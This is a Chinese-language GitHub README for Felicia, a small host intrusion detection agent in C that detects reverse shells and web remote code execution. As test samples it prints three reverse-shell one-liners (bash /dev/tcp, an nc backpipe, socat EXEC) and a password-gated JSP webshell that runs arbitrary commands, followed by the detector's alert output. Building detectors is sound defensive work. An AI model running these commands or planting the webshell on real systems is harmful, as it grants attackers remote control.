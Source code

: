 # Felicia
Simple HIDS/EDR (目前仍在持续开发中...)
## Desc
自己写着玩的一个小项目，功能、架构设计已经完成，但由于时间、人力非常有限，代码化比较缓慢，目前只有agent无server，且入侵检测这块目前只支持反弹shell、web rce两块，后续有时间其它功能会慢慢补上。
## How to use
```
root@ubuntu:~# cd Felicia/
root@ubuntu:~/Felicia# make
gcc felicia_plugin_reverse_shell.c felicia_main.c felicia_data_struct.c felicia_process_monitor.c felicia_process_handler.c \
felicia_init.c felicia_plugin_web_rce.c cJSON.c -o demo
root@ubuntu:~/Felicia# ./demo
```
## Sample

#### 反弹shell

**受害机：**

```
bash -i >&/dev/tcp/192.168.31.162/7777 0>&1
```

or

```
mknod backpipe p; nc 192.168.31.162 7777 0<backpipe | bash 1>backpipe 2>backpipe
```

or

```
socat TCP4:192.168.30.127:1234 EXEC:bash,pty,stderr,setsid,sigint,sane
```

or else...

**攻击机：**

```
nc -lk 7777
```

**检测结果：**

```
root@ubuntu:~/Felicia# ./demo
reverse shell event
{
  'evt':'rvshell'
  'pid':'19256'
  'exe':'/bin/bash'
  'cmdline':'bash'
  'cwd':'/root/Felicia'
  'ppid':'19255'
  'pexe':'/usr/bin/socat'
  'pcmdline':'socat TCP4:192.168.31.162:7777 EXEC:bash,pty,stderr,setsid,sigint,sane'
  'uid':'0'
  'pname':'bash'
  'stdin':'/dev/pts/3'
  'stdout':'/dev/pts/3'
  'srcip':'192.168.31.115'
  'dstip':'192.168.31.162'
  'srcport':'43696'
  'dstport':'7777'
  'tty':'/dev/pts/3'
  'unixtime':'0'
}

root@ubuntu:~/Felicia# ./demo
reverse shell event
{
  'evt':'rvshell'
  'pid':'19230'
  'exe':'/bin/bash'
  'cmdline':'bash'
  'cwd':'/root/Felicia'
  'ppid':'14615'
  'pexe':'/bin/bash'
  'pcmdline':'-bash'
  'uid':'0'
  'pname':'bash'
  'stdin':'pipe:[140445]'
  'stdout':'/root/Felicia/backpipe'
  'srcip':'192.168.31.115'
  'dstip':'192.168.31.162'
  'srcport':'43694'
  'dstport':'7777'
  'tty':'/dev/pts/4'
  'unixtime':'0'
}

root@ubuntu:~/Felicia# ./demo
reverse shell event
{
  'evt':'rvshell'
  'pid':'18705'
  'exe':'/bin/bash'
  'cmdline':'bash -i'
  'cwd':'/root/Felicia'
  'ppid':'14615'
  'pexe':'/bin/bash'
  'pcmdline':'-bash'
  'uid':'0'
  'pname':'bash'
  'stdin':'socket:[136198]'
  'stdout':'socket:[136198]'
  'srcip':'192.168.31.115'
  'dstip':'192.168.31.162'
  'srcport':'43658'
  'dstport':'7777'
  'tty':'/dev/pts/4'
  'unixtime':'0'
}
```



#### web rce

vulnhub tomcat8靶场测试 jsp小马执行命令

**受害机：**

```
root@06bc32a5536b:/usr/local/tomcat/webapps/ROOT# cat getshell.jsp
<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```

**攻击机：**

```
http://192.168.31.115:8007/getshell.jsp?pwd=023&i=ls
```

**检测结果：**

```
root@ubuntu:~/Felicia# ./demo
web rce event
{
  'evt':'webrce'
  'pid':'19484'
  'exe':'/bin/ls'
  'cmdline':'ls'
  'cwd':'/usr/local/tomcat'
  'ppid':'15594'
  'pexe':'/usr/lib/jvm/java-7-openjdk-amd64/jre/bin/java'
  'pcmdline':'/usr/lib/jvm/java-7-openjdk-amd64/jre/bin/java -Djava.util.logging.config.file=/usr/local/tomcat/conf/logging.properties -Djava./proc/19484/exe'
  'uid':'0'
  'pname':'ls'
  'stdin':'pipe:[141299]'
  'stdout':'pipe:[141300]'
  'tty':' '
  'unixtime':'0'
}
```



## TODO

- 威胁情报
- 敏感文件变更
- server（包含前端）
- 线程池
- else...



## Link

https://driverxdw.github.io/2020/12/14/Felicia-Hids-Demo-Design/

